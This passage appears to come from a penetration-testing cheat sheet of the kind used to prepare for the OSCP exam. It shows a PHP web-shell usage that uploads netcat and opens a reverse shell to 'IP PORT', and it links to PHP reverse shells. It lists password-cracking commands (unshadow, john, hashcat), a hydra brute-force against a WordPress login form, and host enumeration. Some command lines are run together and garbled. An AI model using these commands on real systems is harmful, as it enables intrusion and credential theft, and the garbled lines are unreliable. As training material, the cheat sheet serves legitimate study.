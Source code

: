 I shouldn’t have to explain above, but in short use <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT

- PenTest Monkey’s PHP Reverse Shell for Linux — http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Above can be located in the following path on your Kali box

```
/usr/share/webshells/php/php-reverse-shell.php
```

- Windows Equivalent to PenTest Monkey Linux Shell — [https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php](https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse Shell.php)

# Password Brute Forcing

```
unshadow passwd shadow > creds.txt

john --wordlist=rockyou.txt creds.txt 

fcrackzip -u -D -p ‘rockyou.txt’ 

zip_filezip2john zip_file > hash.txt

john --format=zip hash.txt

hydra -l username -P password_list IP_ADDR -V http-post-form ‘/path/login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location’ -t 25

hashcat -a 0 -m hash-mode hash.txt rockyou.txt
```

Useful Websites:

- https://crackstation.net/
- https://hashkiller.co.uk/
- For the hashcat command, the hash-mode list can be found here: https://hashcat.net/wiki/doku.php?id=example_hashes
- http://cracker.offensive-security.com/ (Your priority code is in OSCP Control Panel)

# OS, User, and Data Collection

**Unix**

```
rpm -qa

dkpg -lapt list --installed 

aptitude search ‘~i!~M’

uname -a

uname -m

cat /etc/*release*id
```
